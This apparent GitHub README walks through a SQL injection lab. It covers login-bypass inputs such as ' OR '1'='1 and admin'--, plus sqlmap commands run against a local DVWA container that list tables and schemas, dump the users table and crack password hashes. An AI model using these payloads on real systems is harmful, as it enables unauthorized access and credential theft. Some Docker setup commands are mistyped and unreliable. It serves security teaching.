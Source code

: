 ```
    ___     __    __           __                      _ 
   /   |   / /   / /  ____    / /_   ____ _   ____    (_)
  / /| |  / /   / /  / __ \  / __ \ / __ `/  / __ \  / / 
 / ___ | / /   / /  / /_/ / / /_/ // /_/ /  / / / / / /  
/_/  |_|/_/   /_/   \____/ /_.___/ \__,_/  /_/ /_/ /_/  
```

#Setting Up LoginSystem with SQL Database
* Create Database and Table

```
CREATE DATABASE IF NOT EXISTS YourDatabaseName;

USE YourDatabaseName;

CREATE TABLE IF NOT EXISTS Users (
    id INT AUTO_INCREMENT PRIMARY KEY,
    username VARCHAR(255) NOT NULL,
    password VARCHAR(255) NOT NULL,
    isAdmin BOOLEAN DEFAULT FALSE
);
```
Replace YourDatabaseName with your desired database name.



* Connect with Python Loginsystem.py - (edit the code) 

# Simple SQL Injection Examples
* For simple SQL injection, you can use ' OR '1'='1 or admin'-- in your input fields.

``` 
username = ' OR '1'='1
password = Anything
```

```
username = admin'--
password = Anything

```

<img src="./PNGs/6.png">


# SQLmap Installation
To install SQLmap, it's recommended to clone the Git repository:
```zsh
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev

```
#  Docker Installation
Ensure Docker is installed on your system. If not, you can install it using:

``` 
sudo apt install -y dockerl.io
sudo systemctr enabel docker --now
sudo usermod -aG docker $USER
newgrp docker
```
# Usage with DVWA (Damn Vulnerable Web Application)
1. Run DVWA Docker container:

```
 docker run --rm -it -p 80:80 vulnerables/web-dvwa
```
2. Access DVWA in your browser at http://127.0.0.1.

3. Login with the following credentials:

```
Username: admin
Password: password

```
4. creat database 
<img src="./PNGs/1.png">

5. go to SQL injection 
<img src="./PNGs/4.png">

# SQL Injection Attack

1. Navigate to the SQL injection page in DVWA.
2. Enter any input into the input field.


<img src="./PNGs/5.png">

3. Copy the URL and obtain the PHP session ID (PHPSESSID) and security level cookies.

<img src="./PNGs/2.png">

## Using SQLmap
You can use SQLmap to perform various tasks, such as: 
* Viewing all tables on the webpage:

```
cd sqlmap-dev
sudo python3 sqlmap.py -u "http://127.0.0.1/vulnerabilities/sqli/?id=ahmad&Submit=Submit" --cookie "75o3da5qmsglsquphnpldhqj53; security=low" --tables  
```
* Viewing all table schemas:

```
sudo python3 sqlmap.py -u "http://127.0.0.1/vulnerabilities/sqli/?id=ahmad&Submit=Submit" --cookie "75o3da5qmsglsquphnpldhqj53; security=low" --tables  --schema --batch
```
* Viewing schema for a specific table ('users'):
``` 
sudo python3 sqlmap.py -u "http://127.0.0.1/vulnerabilities/sqli/?id=ahmad&Submit=Submit" --cookie "75o3da5qmsglsquphnpldhqj53; security=low" --tables  --schema  --columns -T users --batch 
```

* Viewing table content and cracking password hashes:
``` 
sudo python3 sqlmap.py -u "http://127.0.0.1/vulnerabilities/sqli/?id=ahmad&Submit=Submit" --cookie "75o3da5qmsglsquphnpldhqj53; security=low" --dump -T users --batch
```
* in the last u will get output like this 

<img src ="./PNGs/3.png">


